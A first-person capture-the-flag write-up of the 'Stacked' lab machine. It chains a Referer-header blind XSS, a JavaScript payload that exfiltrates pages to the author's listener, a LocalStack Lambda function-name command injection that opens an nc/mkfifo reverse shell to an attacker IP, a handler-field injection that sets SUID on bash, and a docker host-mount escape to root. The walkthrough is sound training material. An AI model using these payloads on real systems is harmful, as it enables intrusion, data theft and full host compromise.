

# Stacked 

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.228.28                  
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 04:06 EDT
Nmap scan report for 10.129.228.28
Host is up (0.0074s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2376/tcp open  docker
```

Detailed scan:

```
$ nmap -p 80,2376 -sC -sV --min-rate 3000 10.129.228.28                   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 04:09 EDT
Nmap scan report for 10.129.228.28
Host is up (0.014s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://stacked.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
2376/tcp open  ssl/docker?
| ssl-cert: Subject: commonName=stacked
| Subject Alternative Name: DNS:localhost, DNS:stacked, IP Address:0.0.0.0, IP Address:127.0.0.1, IP Address:172.17.0.1
| Not valid before: 2022-08-17T15:41:56
|_Not valid after:  2025-05-12T15:41:56
Service Info: Host: stacked.htb
```

Added `stacked.htb` to the `/etc/hosts` file based on the `nmap` scan results.

### Web Enum

Port 80 just shows a basic count down page:


When I was about to do a `wfuzz` scan, I noticed something rather weird:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H 'Host: FUZZ.stacked.htb' -u http://stacked.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://stacked.htb/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================
000000032:   302        9 L      26 W       285 Ch      "blog"                     
000000029:   302        9 L      26 W       288 Ch      "privacy"                  
000000024:   302        9 L      26 W       283 Ch      "12"                       
000000028:   302        9 L      26 W       287 Ch      "spacer"                   
000000026:   302        9 L      26 W       286 Ch      "about"                    
000000022:   302        9 L      26 W       286 Ch      "warez"                    
000000021:   302        9 L      26 W       287 Ch      "serial"                   
000000025:   302        9 L      26 W       288 Ch      "contact"                  
000000027:   302        9 L      26 W       287 Ch      "search"                   
000000023:   302        9 L      26 W       285 Ch      "full"                     
000000020:   302        9 L      26 W       286 Ch      "crack"
```

For some reason, the length of the result is dependent on the sub-domain. Anyways, when filtering results by line length using the `--hl 9` flag, I found a `portfolio` subdomain.

The `portfolio` page was promoting 'LocalStack Development':


In the About section, there's an option to download a file:


Here's the contents of the file:

```
$ cat docker-compose.yml 
version: "3.3"

services:
  localstack:
    container_name: "${LOCALSTACK_DOCKER_NAME-localstack_main}"
    image: localstack/localstack-full:0.12.6
    network_mode: bridge
    ports:
      - "127.0.0.1:443:443"
      - "127.0.0.1:4566:4566"
      - "127.0.0.1:4571:4571"
      - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
    environment:
      - SERVICES=serverless
      - DEBUG=1
      - DATA_DIR=/var/localstack/data
      - PORT_WEB_UI=${PORT_WEB_UI- }
      - LAMBDA_EXECUTOR=${LAMBDA_EXECUTOR- }
      - LOCALSTACK_API_KEY=${LOCALSTACK_API_KEY- }
      - KINESIS_ERROR_PROBABILITY=${KINESIS_ERROR_PROBABILITY- }
      - DOCKER_HOST=unix:///var/run/docker.sock
      - HOST_TMP_FOLDER="/tmp/localstack"
    volumes:
      - "/tmp/localstack:/tmp/localstack"
      - "/var/run/docker.sock:/var/run/docker.sock"
```

This `localstack` software was probably running on the machine, and there must be a method to access it. 

There was a form on the page, and submitting it sends this request:


So this page is PHP based. I ran `gobuster` on this to enumerate some directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php -u http://portfolio.stacked.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://portfolio.stacked.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 286]
/.htaccess.php        (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 286]
/.htpasswd.php        (Status: 403) [Size: 286]
/.hta                 (Status: 403) [Size: 286]
/.htaccess            (Status: 403) [Size: 286]
/assets               (Status: 301) [Size: 331] [--> http://portfolio.stacked.htb/assets/]
/css                  (Status: 301) [Size: 328] [--> http://portfolio.stacked.htb/css/]
/files                (Status: 301) [Size: 330] [--> http://portfolio.stacked.htb/files/]
/functions.php        (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 327] [--> http://portfolio.stacked.htb/js/]
/landing.php          (Status: 200) [Size: 30268]
/process.php          (Status: 200) [Size: 72]
/server-status        (Status: 403) [Size: 286]
```

I found it particularly weird that the form **actually** sent a request. Most of the time, these machines have static forms that do nothing.

### Finding XSS --> Mail Subdomain

There was no other endpoint on this website, and I ran out of ideas. As such, I focused on entering random payloads in this form field.

Eventually I found that XSS was being checked for:


This could mean a simulated user was looking at my messages, and I have to find a way to bypass this (I literally had no other leads). Sending it still didn't work:


I was stuck here for really long. I could not bypass this weird check in any way. I thought about the fact that this `process.php` might be storing more than the actual message. It might be storing some additional information about the sender through the different HTTP headers.

I replaced the some of the HTTP headers with `<script>document.location="http://10.10.14.18/hiiamxss_HEADERNAME"</script>`. I did this for the `User-Agent`, `Origin` and `Referer` headers (the only ones without erroring out).

After a bit, I got a hit on my Python HTTP server:


The `Referer` header is vulnerable! Using this, I can now create a script to automate this.

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://portfolio.stacked.htb'

headers = {
        'Referer':'<script src="http://10.10.14.18/evil.js"/>'
}
data = {
        'fullname':'Test',
        'email':'test@test.com',
        'tel':'111111111111',
        'subject':'t',
        'message':'yo!'
}

r = requests.post(URL + '/process.php', data=data, headers=headers, verify=False, proxies=proxies)
```

Using the above, I can start to steal pages from the ports within the `docker-compose.yml` file. 

First, I had the machine retrieve my page so I could see the headers. The page mentioned using `XMLHttpRequest`, so I used just that:

```js
var req = new XMLHttpRequest();    
req.open("POST", "http://10.10.14.18:8000/", false);    
req.send(null);
```

I started a listener port on port 8000, and this is the output from the request:

```
$ nc -lvnp 8000             
listening on [any] 8000 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.28] 60794
POST / HTTP/1.1
Host: 10.10.14.18:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Origin: http://mail.stacked.htb
Connection: keep-alive
Content-Length: 0
```

There was a `mail.stacked.htb` domain!

### Mail Enum --> S3 Bucket

I started to enumerate this instance by retrieving the page contents using this Python HTTP server for POST requests:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs

class MyRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()

        for key, values in params.items():
            print(f"{key}: {values}")
    

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, MyRequestHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Here's the script I used to retrieve the page contents:

```js
var url = "http://mail.stacked.htb/";
var attacker = "http://10.10.14.18:8000/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    var exfilxhr = new XMLHttpRequest();
    exfilxhr.open('POST', attacker, false);
    exfilxhr.send(xhr.responseText);
  }
};
xhr.open('GET', url, true);
xhr.send(null);
```

The output from this was a HTML page for an AdminLTE3 mailbox:


Interesting! I also noted that in the initial request, I saw the `Referer` header was set to `http://mail.stacked.htb/read-mail.php?id=2`. I changed the URL to make have the `id` parameter set to `1`, and stole the page.

There was this interesting chunk here:


### AWS Lambda RCE

There were some AWS terms in the `docker-compose.yml` like `LAMBDA_EXECUTOR` and `SERVICES=serverless`.

I went to read more about all of these, and found that for AWS, serverless means there is no infrastructure to be handled. Lambdas are a serverless, event-driven compute service used to run code without managing servers. From this, it appears abusing Lambdas is the next step.



In the documentation linked above, there are steps. First, I used their example file:

```js
exports.handler = async function(event, context) {
  console.log("ENVIRONMENT VARIABLES\n" + JSON.stringify(process.env, null, 2))
  console.log("EVENT\n" + JSON.stringify(event, null, 2))
  return context.logStreamName
}
```

Then, zip this to create a deployment package:

```bash
zip function.zip index.js
```

Then use `create-function` to create the function.

```
$ aws lambda create-function --function-name my-function --zip-file fileb://function.zip --handler index.handler --runtime nodejs12.x --endpoint-url http://s3-testing.stacked.htb --role arn:aws:iam::123456789012:role/lambda-ex
{
    "FunctionName": "my-function",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:my-function",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-ex",
    "Handler": "index.handler",
    "CodeSize": 321,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2024-03-17T10:20:23.194+0000",
    "CodeSha256": "FnxeIaNQovK1apt/9eYBbnztePtHivqhO0rLkPcRgiY=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "c68e5593-e940-49f2-8974-df907836e04f",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```

The box did not have `nodejs20.x`, so I replaced it with `nodejs12.x` which was present.

This function can be invoked using the `invoke` command:

```
$ aws lambda invoke --function-name my-function out --log-type Tail --endpoint-url http://s3-testing.stacked.htb

{
    "StatusCode": 200,
    "LogResult": "G1szMm1TVEFSVCBSZXF1ZXN0SWQ6IGExMjUwYTcwLWMzOWItMWJmMC0wNzk3LWU3OWE2ZGU2MTgxMSBWZXJzaW9uOiAkTEFURV....,
    "ExecutedVersion": "$LATEST"
}
```

However, there was nothing I could do with this! The machine was serverless, so the container run would die after a few seconds.

### Localstack + AWS --> RCE

So now I know I can at least run Javascript somewhere on the machine. Researching for LocalStack RCE exploits returned these 2 pages:





In short, there's an RCE exploit in the dashboard, which I assume is running on port 8080 based the `docker-compose.yml` file.

The specific vulnerability lies in the `functionName` parameter, which is taken fron the name of the Lambda function executed. To exploit this, I have to specify a malicious function name within the AWS instance.

This is triggered from loading the dashboard, so I can change the initial XSS payload to just visit `http://127.0.0.1:8080` instead of loading a remote script via `document.location`.

Based on the SonarSource blog, the payload is just the command to be executed:

```
aws lambda get-function --function-name test;touch sonarsource.txt
```

To exploit this, I created a new function:

```
$ aws lambda create-function --function-name "test;ping -c 1 10.10.14.18; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.18 443 >/tmp/f"....
```

The `ping` command is used for making sure it works. Afterwards, I made the site visit `http://127.0.0.1:8080` via XSS, and I got a shell!


I can then grab the user flag from `/home/localstack`.

## Privilege Escalation

### Lambda Processes --> Container Root

This container did not have anything useful within it. I ran `pspy64` and the processes created when I used `aws` for the initial RCE:

```
(.venv) /tmp $ ./pspy64
2024/03/17 11:28:02 CMD: UID=1001 PID=481    | /bin/sh -c { test `which aws` || . .venv/bin/activate; }; aws --endpoint-url="http://localhost:4566" lambda list-event-source-mappings --function-name test;ping -c 1 10.10.14.18; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.18 443 >/tmp/f                                                                            
2024/03/17 11:28:02 CMD: UID=0    PID=25     | python bin/localstack start --host 
2024/03/17 11:28:02 CMD: UID=1001 PID=24     | python bin/localstack web 
2024/03/17 11:28:02 CMD: UID=1001 PID=23     | make web 
2024/03/17 11:28:02 CMD: UID=0    PID=22     | make infra 
2024/03/17 11:28:02 CMD: UID=1001 PID=21     | bash -c if [ "$START_WEB" = "0" ]; then exit 0; fi; make web 
2024/03/17 11:28:02 CMD: UID=0    PID=17     | tail -qF /tmp/localstack_infra.log /tmp/localstack_infra.err 
2024/03/17 11:28:02 CMD: UID=0    PID=15     | /usr/bin/python3.8 /usr/bin/supervisord -c /etc/supervisord.conf 
2024/03/17 11:28:02 CMD: UID=0    PID=106    | node /opt/code/localstack/localstack/node_modules/kinesalite/cli.js --shardLimit 100 --port 44705 --createStreamMs 500 --deleteStreamMs 500 --updateStreamMs 500 --path /var/localstack/data/kinesis
2024/03/17 11:30:48 CMD: UID=0    PID=556    | unzip -o -q /tmp/localstack/zipfile.924d85b0/original_lambda_archive.zip 
2024/03/17 11:28:02 CMD: UID=0    PID=1      | /bin/bash /usr/local/bin/docker-entrypoint.sh 
```

I noticed that there was a `.zip` file created. 

When I invoked my function, it would do a few more commands that were pretty long.



```
2024/03/17 11:31:31 CMD: UID=0    PID=568    | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler")";docker cp "/tmp/localstack/zipfile.924d85b0/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
```



The above simply created a Docker container in a subshell, and I was looknig for things ICould control. `index.handler` was the one input I could change.

As such, I created a function with `chmod u+s /bin/bash` appended to the back since the `index.handler` string was already in a subshell.

```
$ aws lambda create-function --function-name "test1" --zip-file fileb://function.zip --handler 'index.handler; $(chmod u+s /bin/bash)' --runtime nodejs12.x --endpoint-url http://s3-testing.stacked.htb --role arn:aws:iam::123456789012:role/lambda-ex

$ aws lambda invoke --function-name test1 --endpoint-url http://s3-testing.stacked.htb out
```

Afterwards, I could become `root`:



### Docker --> Root File Access

The main thing I wanted to enumerate first was `docker`, since this container was spawning other containers. It might be possible that it had an image for the machine with the flag in it.

As `root`, I can use it to view the current running containers and images present:

```
# docker ps
CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
7dc04fa2d220        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main

# docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
localstack/localstack-full   0.12.6              7085b5de9f7c        2 years ago         888MB
localstack/localstack-full   <none>              0601ea177088        3 years ago         882MB
lambci/lambda                nodejs12.x          22a4ada8399c        3 years ago         390MB
lambci/lambda                nodejs10.x          db93be728e7b        3 years ago         385MB
lambci/lambda                nodejs8.10          5754fee26e6e        3 years ago         813MB
```

I checked each of them, and found that `localstack-full` was the correct one to use. 

```
# docker run -d -v /:/mnt -it 0601ea177088        
c5807cc0f7b2de02ee658a592c37560d5cb4f216f50cfd6a4501e51ff025d55a

# docker ps
CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
c5807cc0f7b2        0601ea177088                        "docker-entrypoint.sh"   29 seconds ago      Up 28 seconds       4566/tcp, 4571/tcp, 8080/tcp                                                                           elastic_maxwell
7dc04fa2d220        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_mai
```

Now, I could execute commands on it, and I had mounted the root file directory at `/mnt`, allowing me to grab the flag:


Using this, I could `ssh` into the machine as `root` since I had access to the `root` user's `.ssh` directory:


Rooted!